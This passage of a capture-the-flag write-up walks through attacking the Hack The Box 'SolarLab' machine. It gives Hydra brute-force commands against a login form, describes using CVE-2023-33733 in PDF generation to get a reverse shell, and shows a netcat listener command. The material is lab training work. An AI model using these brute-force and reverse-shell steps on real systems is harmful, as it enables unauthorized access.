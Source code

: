 We see that blake is a user, of which we found his login information within the excel file. With this information, we should be able to brute force the ReportHub login via Hydra.


```bash
hydra -L /home/kali/wordlist/solarlab_user_word_list.txt -P /home/kali/wordlist/solarlabs_wl_pass.txt report.solarlab.htb -s 6791 http-post-form "/login:username=^USER^&password=^PASS^&enter=Login:User not found." -V

```
![hydra_screen_shot](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/046207b2-e0bb-42eb-b226-63143d9d38ca)

We get a list of usernames. Notice how they start with their name, and end in the capital of their last name. Now we will focus on Blake and brute force only his potential username/password.

```bash
hydra -l BlakeB -P /home/kali/wordlist/solarlabs_wl_pass.txt report.solarlab.htb -s 6791 http-post-form "/login:username=^USER^&password=^PASS^&enter=Login:User not found." -V

```

Now we can log into the ReportHub Dashboard.

![blakeb_dashboard](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/dcb4d6a1-d80f-405b-b22d-745acca5e1ea)

## Post-Exploitation

After some analysis, each of the options generates a pdf. There is a vulnerability (CVE-2023-33733) that will exploit the pdf generating ability, which will allow us to get a reverse shell into the local network.

To do so, I simply used a reverse shell generator and plugged in the payload into the python script.

For simplicity, here are the steps used to get the reverse shell:

1. Used a Reverse Shell Generator: https://www.revshells.com/
2. Plug in the payload (illustrated below) in the python script: https://github.com/c53elyas/CVE-2023-33733
   ![payload_python](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/f1b423e7-747c-449f-9c06-c081c69fae6b)
3. After this set up, since it’s possible to intercept, and alter the Training Request text and plug the malicious script.
   ![payload_packet intercept](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/73b59298-5761-4f65-8e3d-83f371a37b3d)
4. Before we Forward the response, we set up a listener on port 4444 (Or the port you set up a netcat listener).
```bash
sudo rlwrap nc -lnvp 4444

```

After completing these above steps, we have a foothold within the network.
![foothold_solar_lab](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/85edbe45-1b2f-405c-b131-1b6fb6ffce5c)

